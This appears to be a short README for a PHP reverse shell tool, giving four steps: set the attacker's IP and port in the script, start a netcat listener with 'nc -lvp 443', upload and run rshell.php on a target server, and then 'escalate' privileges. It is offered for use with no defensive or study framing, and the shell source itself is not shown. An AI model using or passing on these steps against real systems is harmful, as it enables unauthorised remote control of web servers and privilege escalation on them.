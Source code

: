 # php-reverse-shell
make a php call home with netcat (i.e. a php reverse shell)

## step 1 change code 
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 443;       // CHANGE THIS

## step 2 set your caller
    nc -lvp 443

## step 3 upload rshell.php and run it
![scrn](https://i.imgur.com/j3Lsy3R.png)

## step 4 escalate ;)
![scrn](https://i.imgur.com/w02EgM8.jpg)
